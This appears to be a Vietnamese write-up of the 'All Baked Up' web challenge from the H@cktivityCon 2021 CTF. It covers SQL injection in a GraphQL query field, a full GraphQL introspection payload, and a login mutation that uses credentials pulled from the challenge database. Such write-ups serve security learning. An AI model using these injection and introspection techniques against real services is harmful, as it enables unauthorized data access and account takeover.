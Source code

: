 ```yaml
---
title: All Baked Up - H@cktivityCon 2021 CTF
author: HoangND
date: 2021-09-19 22:00:00 +0700
categories: [Writeups, H@cktivityCon 2021 CTF]
tags: [graphql, web, sqli]
---
```


## GRAPHQL
Vì challenge này liên quan đến graphql và mình chưa biết về cái này nên sẽ mô tả qua ở đây một chút. GraphQL là ngôn ngữ truy vấn cho các API và runtime để thực hiện các truy vấn đó với dữ liệu. Nghĩa là người dùng sẽ tương tác với API thông qua graphql

![image](/assets/posts/all-baked-up/1.png)

Mục đích của graphql là tạo ra một endpoint đơn giản dễ hiểu dễ sử dụng để handle tất cả các endpoint phức tạp còn lại. Về operation trong graphql có hai kiểu chính là query và mutation. Ở đây query tương đương với câu lệnh select bình thường, trong khi đó mutation thường thực hiện các thao tác thay đổi bên trong dữ liệu (create, update, delete). Để dễ hình dung thì ý tưởng của query và mutation tương đương với get, post về mặt convention.  

## Solve challenge
All Baked Up là một trang web được dùng để lưu giữ các công thức làm bánh. Chức năng chỉ dừng lại ở trang liệt kê danh sách và truy cập cụ thể vào công thức của từng loại bánh.

![image](/assets/posts/all-baked-up/2.png)

Phân tích các request của nó

![image](/assets/posts/all-baked-up/3.png)

Vậy là trang web sử dụng công nghệ graphql để thực hiện truy vấn. Phân tích qua một chút về payload trong request của bài này

![image](/assets/posts/all-baked-up/4.png)

Truy vấn được thực hiện có tên là UserQuery, kiểu truy vấn là Query. Bên trong truy vấn thực hiện lấy post thông qua việc kiểm tra thuộc tính name. Bây giờ thử detect sqli xem thế nào, ở đây mình thử detect trong trường name bằng dấu '

![image](/assets/posts/all-baked-up/5.png)

Kết quả trả về lỗi sql, như vậy có thể thực hiện sqli ở trường này, tiếp tục sqli với union mình thu được 

![image](/assets/posts/all-baked-up/6.png)

Vậy có thể retrieve dữ liệu thông qua các vị trí 2,3,4,6. Tiếp theo là bước SQLi đơn giản mình xin phép lướt qua. Kết quả mình đạt được là trang web sử dụng cơ sở dữ liệu SQLite, có hai table là users và posts. Bên trong posts không có gì hay ho vì đã hiển thị hên lên giao diện người dùng rồi. Kiểm tra users thì thấy có một user duy nhất là tên của tác giả bài này.

![image](/assets/posts/all-baked-up/7.png)

Như vậy mình đã có được thông tin đăng nhập của một user, tuy nhiên trang đăng nhập ở đâu ??????. Sau đó mình sử dụng công cụ Gobuster để kiểm tra các endpoint, tuy nhiên không có bất kỳ endpoint nào cho việc đăng nhập. Để ý kỹ thì trong request của mình có trường session, decode ra thấy thông tin đăng nhập là guest, hẳn là phải có một cách thức đăng nhập nào đó. 

Sau đó mình tìm kiếm các lỗi graphql trên mạng, và tìm thấy có thứ gọi là ***__schema***. Đây là một system type chứa các thông tin về query cũng như mutation (tương tự information_schema của Mysql). Ăn sẵn bê luôn payload trên mạng vào 🙏.

```
"query":"query UserQuery {\n__schema{\nqueryType{\nname\n}mutationType{\nname\n}subscriptionType{\nname\n}types{\n...FullType\n}directives{\nname description locations args{\n...InputValue\n}\n}\n}\n}fragment FullType on __Type{\nkind name description fields(includeDeprecated:true){\nname description args{\n...InputValue\n}type{\n...TypeRef\n}isDeprecated deprecationReason\n}inputFields{\n...InputValue\n}interfaces{\n...TypeRef\n}enumValues(includeDeprecated:true){\nname description isDeprecated deprecationReason\n}possibleTypes{\n...TypeRef\n}\n}fragment InputValue on __InputValue{\nname description type{\n...TypeRef\n}defaultValue\n}fragment TypeRef on __Type{\nkind name ofType{\nkind name ofType{\nkind name ofType{kind name ofType{\nkind name ofType{\nkind name ofType{\nkind name ofType{\nkind name\n}\n}\n}\n}\n}\n}\n}\n}\n"
```

Kết của trả về chứa các query và mutation được hỗ trợ, ở đây mình tìm thấy một query để lấy flag

```json
{
    "args": [

    ],
    "deprecationReason": null,
    "description": "",
    "isDeprecated": false,
    "name": "flag",
    "type": {
        "kind": "SCALAR",
        "name": "String",
        "ofType": null
    }
}
```

Thử luôn xem lấy được flag không

![image](/assets/posts/all-baked-up/8.png)

Vậy là bắt buộc phải đăng nhập và lấy được token. Tiếp tục tìm kiếm bên trong __schema, mình tìm thấy một mutation xác thực user

```json
{
    "args": [{
            "defaultValue": null,
            "description": "",
            "name": "username",
            "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                    "kind": "SCALAR",
                    "name": "String",
                    "ofType": null
                }
            }
        },
        {
            "defaultValue": null,
            "description": "",
            "name": "password",
            "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                    "kind": "SCALAR",
                    "name": "String",
                    "ofType": null
                }
            }
        }
    ],
    "deprecationReason": null,
    "description": "",
    "isDeprecated": false,
    "name": "authenticateUser",
    "type": {
        "kind": "OBJECT",
        "name": "Auth",
        "ofType": null
    }
}
```

Từ thuộc tính type mình biết được mutation này trả về object kiểu Auth, ngay dưới mutation này có mô tả về type Auth

```json
{
    "description": "Auth info for a user",
    "enumValues": null,
    "fields": [{
            "args": [

            ],
            "deprecationReason": null,
            "description": "The token",
            "isDeprecated": false,
            "name": "token",
            "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
            }
        },
        {
            "args": [

            ],
            "deprecationReason": null,
            "description": "The user",
            "isDeprecated": false,
            "name": "user",
            "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                    "kind": "OBJECT",
                    "name": "User",
                    "ofType": null
                }
            }
        }
    ],
    "inputFields": null,
    "interfaces": [

    ],
    "kind": "OBJECT",
    "name": "Auth",
    "possibleTypes": null
}
```

Bên trong Auth có trường token. Túm váy lại, mình sẽ tạo mutation và truyền vào username và password sau đó lấy token từ response cho việc xác thực. Payload cuối cùng để đăng nhập như sau

```json
{
    "operationName":"UserMutation",
    "variables":{
        "username":"congon4tor",
        "password":"n8bboB!3%vDwiASVgKhv"
    },
    "query":"mutation UserMutation($username:String!, $password:String!) {\nauthenticateUser(username:$username, password:$password){\ntoken\n}\n}\n"
}
```

![image](/assets/posts/all-baked-up/9.png)

Lấy được token rồi, quay lại lấy flag thôi. Thêm header Authorization vào request.

![image](/assets/posts/all-baked-up/10.png)



